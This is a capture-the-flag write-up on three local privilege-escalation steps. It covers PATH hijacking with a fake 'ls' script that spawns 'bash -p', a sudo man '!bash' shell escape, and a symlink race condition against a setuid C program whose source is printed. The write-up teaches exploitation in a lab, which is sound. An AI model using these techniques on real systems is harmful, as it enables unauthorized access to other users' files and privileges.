

**Privesc101 Write-Up**

Privesc101 was the third pwn challenges, based on privilege escalation. I started with ssh into the machine, and did some enumerations. Remember that the flag is at location */home/user3/flag*. From user0 point of view, we were given a file that seems to run ls command in /home/user3 directory. 

***===== STEP 1 =====***

First, I tried to directly get the flag, so I created a directory */tmp/storm*, and created a new script, named *ls*. I typed the following code:
```
#!/bin/bash
cat /home/user3/flag
```
I also changed PATH environment variable to point to my directory: 
```
PATH=/tmp/storm:$PATH
```
Finally, I executed the script but as you may have guessed, it didn't work for a specific reason: we didn't have the right to read this file. Let's bypass this first security. In order to upgrade, I commonly used the same technique shown before except that I replaced the *cat /home/user3/flag* with */bin/bash -p* to force an upgraded shell on the machine (as user1 has the right on stage0 script):


***===== STEP 2 =====***

The second step is pretty straightforward. Indeed, first, I checked my actual privileges with this command:
```
user0@privesc101:/tmp/storm$ sudo -l
User user0 may run the following commands on privesc101:
    (user0 : user2) NOPASSWD: /usr/bin/man ls

```
and then I upgraded to user2 with the following trick:
```
user0@privesc101:/tmp/storm$ sudo -g user2 /usr/bin/man ls
```
When you're in man interface, you can type ```!bash``` to gain your shell as with user2  group's privileges.
```
user0@privesc101:/tmp/storm$ groups
user2 user1 user0
```

***===== STEP 3 =====***

The hardest step of the challenge was, without a doubt, this one. At */home/user2* location, there were a C file and its executable. First interesting thing to notice is the file's permissions:
```
user0@privesc101:/home/user2$ ls -l
total 16
-r-S--s--- 1 user3 user2 9008 May 13 23:59 stage2
-r--r----- 1 root  user2  538 May 13 23:58 stage2.c
```
We can deduct that if we could modify the program's behavior, we will have the right to read the flag file. Let's take a glance at the C file:
```
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
	
	FILE *f;
	
	struct stat buf;
	if (argc < 2) {
		printf("Usage : ./stage2 path\n");
		return -1;
	}

	if (stat(argv[1], &buf) != 0 || buf.st_uid != getuid()) {
		printf("You must own the file.\n");
		return -2;
	}
	
	f = fopen(argv[1], "r");
	if (f == NULL)
		return -3;
	char c;
	printf("%s\n", argv[1]);
	while((c = fgetc(f)) != EOF)
  		printf("%c", c);
  	fclose(f);
  	return 0;
}
```
It reminds me of a challenge... The program takes a path in input, to read the file given if the user who inputs the path has the permissions to read it. You can see in the second conditional branch, that the program checks if we are the owner of the file with a *getuid()* function. The exploit will be a race condition with a symbolic link. The race condition allows us to read the file previously linked rapidly (the exploitation is very fast), as the binary checks our uid, there will be a little time where the program will let us read the file. Indeed, as we will delete the link at the end, it will mislead that the file has been linked to a file that we do not have permission to read (the race condition will always and instantly create our file, it will then print our flag). 

```
f = fopen(argv[1], "r"); 
if (f == NULL) return -3; char c; 
	printf("%s\n", argv[1]); while((c = fgetc(f)) != EOF) 
	printf("%c", c);
```
In this part of code, magic happened.  This is HERE that the file that we give in input (in this case /tmp/storm/flag.txt that I created) can be replaced with the symlink, before it starts to read it. In one command line,  I typed:

```
user0@privesc101:/home/user2$ while true; do ./stage2 /tmp/storm/flag.txt; done
```
to read the file and in another terminal:
```
user0@privesc101:/home/user2$ while true; do ln -sf /home/user3/flag /tmp/storm/flag.txt && rm /tmp/storm/flag.txt && touch /tmp/storm/flag.txt; done
```
The rm && touch file at the end of the last command deletes the file and creates another one. This step is important otherwise the binary will see that we do not have the right to read the flag as the file was not created by us. At the end of the day, we get the flag :D

